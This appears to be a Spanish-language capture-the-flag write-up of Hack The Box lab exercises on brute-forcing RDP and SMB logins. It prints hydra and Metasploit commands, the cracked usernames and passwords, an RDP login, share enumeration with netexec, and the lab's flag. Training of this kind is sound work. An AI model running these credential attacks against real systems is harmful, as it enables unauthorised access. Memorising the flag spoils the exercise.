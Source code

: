 **3. Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

Ejecutando un: 
```
hydra -L username.list -P password.list rdp://10.129.202.136 -t 4
```
No di nunca con la respuesta.... Salía la respuesta correcta pero la marcaba como "probablemente no activa":
```
[3389][rdp] account on 10.129.202.136 might be valid but account not active for remote desktop: login: chris password: 789456123, continuing attacking the account.

```

Probé de hacerlo por SMB:
Ejecuto el comando:
```
hydra -L username.list -P password.list smb://10.129.202.136
```

Pero me encuentro un mensaje de "invalid reply from target". En este caso, tenemos que utilizar el servicio de msf_console:
```
msf auxiliary(scanner/smb/smb_login) > set user_file /home/polika4r/Descargas/contraseñas/username.list
user_file => /home/polika4r/Descargas/contraseñas/username.list
msf auxiliary(scanner/smb/smb_login) > set pass_file /home/polika4r/Descargas/contraseñas/password.list
pass_file => /home/polika4r/Descargas/contraseñas/password.list
msf auxiliary(scanner/smb/smb_login) > set rhosts 10.129.202.136
run
```

Encuentro las siguientes contraseñas: 
```
[+] 10.129.202.136:445    - 10.129.202.136:445 - Success: '.\john:november'
[+] 10.129.202.136:445    - 10.129.202.136:445 - Success: '.\dennis:rockstar'
[+] 10.129.202.136:445    - 10.129.202.136:445 - Success: '.\chris:789456123'
[+] 10.129.202.136:445    - 10.129.202.136:445 - Success: '.\cassie:12345678910'
```

Me conecto por freerdp3 (o por Remmina podría también), con el comando:
```
xfreerdp3 /v:10.129.202.136 /u:chris /p:789456123
```

Y se abre una interfaz visual de la máquina windows víctima. 
En el propio escritorio, encuentro la flag.txt: HTB{R3m0t3DeskIsw4yT00easy}.

**4. Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

Partiendo del escaneo SMB que ya realicé en el ejercicio anterior, ejecuto:
```
netexec smb 10.129.202.136 -u "cassie" -p "12345678910" --shares
SMB         10.129.202.136  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.202.136  445    WINSRV           [+] WINSRV\cassie:12345678910 
SMB         10.129.202.136  445    WINSRV           [*] Enumerated shares
SMB         10.129.202.136  445    WINSRV           Share           Permissions     Remark
SMB         10.129.202.136  445    WINSRV           -----           -----------     ------
SMB         10.129.202.136  445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.202.136  445    WINSRV           C$                              Default share
SMB         10.129.202.136  445    WINSRV           CASSIE          READ,WRITE      
SMB         10.129.202.136  445    WINSRV           IPC$            READ            Remote IPC

```
